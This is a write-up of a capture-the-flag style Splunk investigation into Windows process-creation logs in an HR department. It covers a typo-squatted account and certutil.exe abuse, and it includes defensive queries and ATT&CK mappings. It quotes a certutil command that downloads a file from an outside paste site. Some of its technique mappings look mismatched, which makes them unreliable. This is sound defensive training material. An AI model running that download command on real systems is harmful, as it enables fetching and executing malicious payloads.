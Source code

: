 **Splunk Investigation: HR Department Compromise (Event ID 4688\)**

---

### **🔍 Summary**

An IDS flagged suspicious process execution within the HR department. Using Windows Event ID 4688 logs ingested into Splunk, we conducted an investigation to identify signs of malicious activity and potential compromise.

---

### **🔍 Key Findings**

* **Impersonation Account:** Detected a typo-squatted account, Amel1a, spoofing legitimate marketing user Amelia.  
* **Suspicious User Activity:** Chris.fort (HR) executed processes such as taskkill.exe and clip.exe, not typical for end-users.  
* **LOLBin Abuse:** Haroon used certutil.exe to download a file from controlc.com, indicating Living-off-the-Land Binary (LOLBin) abuse.  
* **MITRE ATT\&CK Mapping:** Attacker used credential impersonation (T1078.004), LOLBins (T1218.010), and C2 (T1105)

---

### **🛠️ Investigation Steps**

#### **1\. Baselining Logs**

* **Query:**  
  index=win\_eventlogs | stats count  
  → Returned **13,959 logs** (March 2022 only).  
* **Scoped HR User Activity:**  
  index=win\_eventlogs Username IN ("chris.fort", "haroon", "diana")  
  → Focussed on users from the HR department.

#### **2\. Identifying the Imposter Account**

* **Query:**  
  index=\* | stats count by Username  
  → Identified Amel1a, a spoofed version of Amelia. Typo-squatting confirmed.

**Efficiency Note:** stats count is preferred over table | dedup for better performance in large datasets.

#### **3\. Triaging HR User Activity**

##### **Chris.fort:**

* **Query:**  
  Username="Chris.fort" | table ProcessName, CommandLine | dedup ProcessName  
* Ran suspicious binaries:  
  * taskkill.exe, clip.exe (scripting and automation tools)   
  * backgroundTaskHost.exe (also used by Diana, but Chris had no productivity apps)  
* Lacked normal user behavior (e.g., browser, Office apps).  
* *Attempted Detection of Scheduled Task Binaries:*  
  * ProcessName IN ("schtasks.exe", "svchost.exe", "taskeng.exe")  
* No strong indicators here, pivoted back to broader process review.

##### **Diana:**

* While both Chris and Diana executed backgroundTaskHost.exe, only Diana ran typical productivity apps like chrome.exe and notepad.exe.  
* No red flags.

##### **Haroon:**

* Executed:  
  certutil.exe \-urlcache \-split \-f https://controlc.com/e4d11035 benign.exe  
  * Indicates malicious file download via **certutil.exe** (LOLBAS technique).  
  * While Certutil is a legitimate Windows tool, its use here \- along with haroon’s lack of other admin level activity \- strongly suggests its use is malicious.

#### **4\. Confirming Malicious Activity**

* File saved: benign.exe  
* Downloaded from: https://controlc.com/e4d11035  
* Flag found inside file: THM{KJ&\*H^B0}

**IOC Summary:** The download from controlc.com and presence of encoded payloads are consistent with command-and-control behavior observed during post-exploitation phases. 

---

### **💡 Lessons Learned**

#### **SOC Workflow**

* **Alerting Strategy:** Flag unusual process execution, especially known LOLBins like certutil.exe, particularly when run by non-admin users.  
* **Baseline Behavior:** Department-level activity baselining can reduce false positives.

#### **Tool Efficiency**

* stats count is more performant than table | dedup for retrieving unique values.  
* dedup remains useful in small-scope investigations, such as filtering usernames.

---

### **🧰 MITRE ATT\&CK Mappings**

  | Tactic               | Technique  | Description                                |
|:---------------------|:-----------|:-------------------------------------------|
| Execution            | T1059.003  | certutil.exe used to download a payload    |
| Persistence          | T1078.004  | Spoofed account Amel1a for access           |
| Defense Evasion      | T1218.010  | LOLBin abuse with certutil.exe              |
| Command and Control  | T1105       | Connection to external C2 (controlc[.]com)  |


---

This investigation highlights a multi-phase attack starting with credential abuse, followed by LOLBin execution and external communication. Each phase was observable via effective Splunk queries and contextual log analysis.
